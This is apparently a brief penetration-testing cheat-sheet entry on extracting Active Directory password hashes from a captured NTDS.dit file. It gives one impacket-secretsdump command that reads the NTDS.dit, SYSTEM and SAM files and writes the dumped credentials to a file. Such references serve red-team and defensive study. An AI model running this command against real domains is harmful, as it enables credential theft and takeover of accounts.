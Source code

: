 # NTDS.dit -- Secretsdump

This use case is for the situation that you have access to an NTDS.dit file.

* This file is essentially the database that holds all AD users, hashes, objects, etc.
* As a result, it is a gold mine and its secrets can be dumped via secretsdump.

Dump Secrets:

```
impacket-secretsdump -ntds ntds.dit -system SYSTEM -sam SAM LOCAL | tee secrets
```
